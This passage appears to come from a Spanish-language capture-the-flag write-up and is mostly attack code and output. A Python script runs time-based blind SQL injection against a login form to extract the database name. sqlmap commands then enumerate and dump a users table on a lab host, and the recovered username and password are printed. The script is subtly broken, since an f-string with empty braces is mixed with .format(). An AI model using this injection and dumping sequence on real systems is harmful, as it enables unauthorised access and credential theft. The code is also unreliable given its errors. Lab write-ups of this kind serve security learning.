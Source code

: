 ```python
    print(c(f"\n[*] Iniciando inyeccion...\n", "cyan"))

    for position in range(1, max_length + 1):
        char_found = False

        for character in characters:
            time_start = time.time()

            payload = f"admin' or IF(SUBSTRING(DATABASE(),{},1)='{}', SLEEP(0.35), 0)-- -".format(position, character)
            r = requests.post(main_url, data={"username": payload, "password": "natepaga"})

            time_end = time.time()

            if time_end - time_start > 0.35:
                extracted_name_db += character
                break

            # Formateamos el resultado final:
    name_db = c(f"{extracted_name_db}", "cyan")
    print(c(f"[+] Nombre de la base de datos: {name_db}", "blue"))

def main():
    makeSQLI() # Llamamos a la funcin que realiza la inyeccion

# Flujo principal del programa:
if __name__ == '__main__':
    main()
```

### Uso SQLMap:
Usaremos esta herramienta para obtener la informacion completa:
Databes: **register**
```bash
sqlmap -u http://172.17.0.2/index.php --dbs --form --batch
```

tabla: **users**
```bash
sqlmap -u http://172.17.0.2/index.php --form -D register --tables --batch
```

dumpeamos:
```bash
sqlmap -u http://172.17.0.2/index.php --form -D register -T users --dump --batch
```

Tenemos credenciales valida:
```bash
+------------------+----------+
| passwd           | username |
+------------------+----------+
| KJSDFG789FGSDF78 | dylan    |
+------------------+----------+
```
